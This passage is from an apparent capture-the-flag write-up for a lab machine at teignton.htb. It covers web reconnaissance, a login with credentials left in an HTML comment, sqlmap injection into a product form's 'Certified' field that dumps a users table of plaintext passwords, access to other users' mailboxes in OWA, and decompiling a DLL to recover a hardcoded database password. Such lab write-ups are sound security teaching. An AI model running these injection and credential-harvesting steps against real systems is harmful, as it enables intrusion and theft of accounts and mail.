Now moving to the HTTPS service we are presented with a homepage that resembles a family business:



Poking around on the website we can see a list of possible usernames?



And we can see a info about a possible username hidden into HTML sourcecode, most likely forgotten bits from Devs:



We can see the structure of their email which most likely resembles their usernames:



And lastly we have a login portal for Admins:



With a Hardcoded token set during login, not sure if relevant for now:



Now I almost forgot the hidden comment was telling us the credentials to login into portal so let's try them to login:



Now we can see and edit the Management menu were the products can be added. I guess we will have to exploit that in order to test a SQLi.

* * *

## Checking for Hidden stuff

Now checking again on website for potential hidden directories I found some interesting stuff:



I see a owa and ecp folders which means we have a Exchange on-prem poral going on but I guess we need to find a set of valid credentials first.

* * *

## Working out the SQLi

Now I'm trying to make the SQL to work but it keeps failing, we have 2 potentials function that can be exploitable:

- The Remove product function is asking for an ID:



- And the Add product function with Name, Year, Price and Certified:



I will save both request and try singularly, there is a possibility that this is a second-order type SQL-Injection since we first do a action on data and then get's reflected back to /management.

I will start with delete function:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CONTEXT]
└─# sqlmap -r delete.req --dbs --batch --risk 3 --level 5
        ___
       __H__                                                                                                                                                                                 
 ___ ___[(]_____ ___ ___  {1.7.7#stable}                                                                                                                                                     
|_ -| . [,]     | .'| . |                                                                                                                                                                    
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:22:43 /2023-07-28/

[13:22:43] [INFO] parsing HTTP request from 'delete.req'
```

Then moving along with ADD function I decided to customize the request payload by knowing that OS is WIndows and DBMS could be MQSql, iterating thru all the parameters of ADD object showed like "Certified" was indeed not a boolean but a string and vulnerable:

```Bash
──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CONTEXT]
└─# sqlmap -r add.req  --dbs --os=windows --dbms=mssql -p certified --risk 3                                                                                                              
        ___
       __H__                                                                                                                                                                                 
 ___ ___["]_____ ___ ___  {1.7.7#stable}                                                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                                                    
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:16:51 /2023-07-28/

[14:16:51] [INFO] parsing HTTP request from 'add.req'
[14:16:51] [INFO] testing connection to the target URL
```



And now we have a dump of the DB available:

```Bash
available databases [4]:
[*] [model\x02]
[*] msdb
[*] tempdb
[*] webapp

[14:21:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/teignton.htb'

[*] ending @ 14:21:38 /2023-07-28/
```

Let's dig more:

```Bash
[14:24:59] [INFO] retrieved: dbo.users
Database: webapp
[2 tables]
+----------+
| products |
| users    |
+----------+
```

And then lastly the users content, we don't care that much about products:

```Bash
Database: webapp
Table: users
[3 entries]
+---------+----------------+-----------+----------------------------------------+------------+
| idX     | username       | last_name | password                               | first_name |
+---------+----------------+-----------+----------------------------------------+------------+
| <blank> | jay.teignton   | Teignton  | admin                                  | Jay\x02    |
| <blank> | abbie.buckfast | Buckfast  | AMkru$3_f'/Q^7f?                       | Abbie      |
| <blank> | test           | tester    | CONTEXT{d0_it_st0p_it_br34k_it_f1x_it} | testing    |
+---------+----------------+-----------+----------------------------------------+------------+

[15:04:53] [INFO] table 'webapp.dbo.users' dumped to CSV file '/root/.local/share/sqlmap/output/teignton.htb/dump/webapp/users.csv'
[15:04:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/teignton.htb'

[*] ending @ 15:04:53 /2023-07-28/
```

And we have another flag and Abbie password.

* * *

## Getting into OWA

Now I tried to use Abbie's creds to login into ECP(aka Exchange On-prem admin portal) but are not working where it works into OWA(webmail):



I can try to look around and can see all the users in the system:



Where the email is name.surname@teignton.htb for all the users expect Administrator obviously...

Next step is to try to open other mailboxes, maybe Abbie have read/mount permissions over other Mailboxes, this is not so strange in a "Corporate" world:



And after trying out all the contact avalable we eventually opened Jay's mailbox:



And checking the Sent emails shows us the Third flag:



We can also see a email that Jay got from Karl with what we see as attachment a possible source code of a Website? I will download and inspect the archive. Surfing thru all the files we can see details about the user used into DB, we got the username but password is obfuscated(most likely removed for security reasons):

```CS
using System.Data.SqlClient;

namespace WebApplication {
    public class Database {

        public static string IPAddress { get; } = @"WEB\WEBDB";
        public static string UserID { get; } = "webappusr";
        public static bool Encrypt { get; } = true;
        public static bool TrustServerCertificate { get; } = true;

        private static string Password { get; } = <OBFUSCATED>;

        public static string ConnectionString {
            get {
                SqlConnectionStringBuilder builder = new SqlConnectionStringBuilder {
                    DataSource = IPAddress,
                    UserID = UserID,
                    Password = Password,
                    Encrypt = true,
                    TrustServerCertificate = true,
                    InitialCatalog = "webapp"
                };

                return builder.ConnectionString;
            }
        }
    }
}
```

Now I don't see any traces of hidden folders so i think we have to "de-obfuscate" those dll and pdb files from obj/debug or Release and check if password is hardcoded there somehow.

I moved the Website template to a Windows istance and used a Decompiler to decompile the WebApplication.dll:



And under Database.cs we can see the hardcoded password:



Now we have the account used to speak to the MSSql istance, we can potentially move on!